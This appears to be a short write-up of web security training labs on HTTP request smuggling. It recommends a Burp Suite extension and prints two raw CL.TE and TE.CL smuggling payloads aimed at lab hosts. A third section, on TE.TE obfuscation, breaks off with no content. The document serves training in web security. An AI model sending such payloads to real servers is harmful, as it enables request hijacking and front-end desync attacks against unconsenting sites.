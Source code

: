 \documentclass[
  letterpaper,
]{article}
\begin{document}
\subsection{Approach}\label{approach-8}

Hard topic. My only recommendation is to use \textbf{HTTP Request
Smuggler} extension for BurpSuite to check, if there are any possible
smugglings and then construct the payload with \textbf{Labs} tab.\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\subsection{Labs}\label{labs-7}

\subsubsection{1. Use unsupported Method GPOST
(CL.TE)}\label{1-use-unsupported-method-gpost-clte}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
\end{Verbatim}

\subsubsection{2. Use unsupported Method GPOST
(TE.CL)}\label{2-use-unsupported-method-gpost-tecl}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
POST / HTTP/1.1
Host: 0a4d007b048d4832c0afb01800b700ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
\end{Verbatim}

\subsubsection{3. Obfuscating TE.TE}\label{3-obfuscating-tete}
\end{document}
